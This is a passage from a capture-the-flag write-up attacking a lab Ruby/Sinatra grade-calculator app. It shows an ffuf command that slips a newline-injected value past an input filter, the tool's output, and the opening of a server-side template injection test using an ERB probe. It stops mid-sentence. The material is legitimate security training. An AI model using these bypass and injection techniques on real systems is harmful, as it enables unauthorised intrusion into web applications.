 `ffuf` confirms it works for all characters:

    
    
    oxdf@hacky$ ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://10.10.11.253/weighted-grade-calc
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
     :: Data             : category1=0xdf%0aFUZZ&grade1=80&weight1=25&category2=Literature&grade2=100&weight2=55&category3=Physics&grade3=93&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: Malicious
    ________________________________________________
    
    :: Progress: [95/95] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
    

### SSTI

#### Identify

Given that user input is being displayed back, it’s worth checking for SSTI.
There are several templating engines for Ruby / Sinatra, but the most common
on on the [intro page](https://sinatrarb.com/intro.html) is ERB.

The PayloadsAllTheThings page for [Ruby
SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
---basic-injections) shows that ERB injection would be `<%= 7*7 %>`. If that
displays back as 49, then I know it was run as Ruby code.

Sending that in a raw form breaks the page:
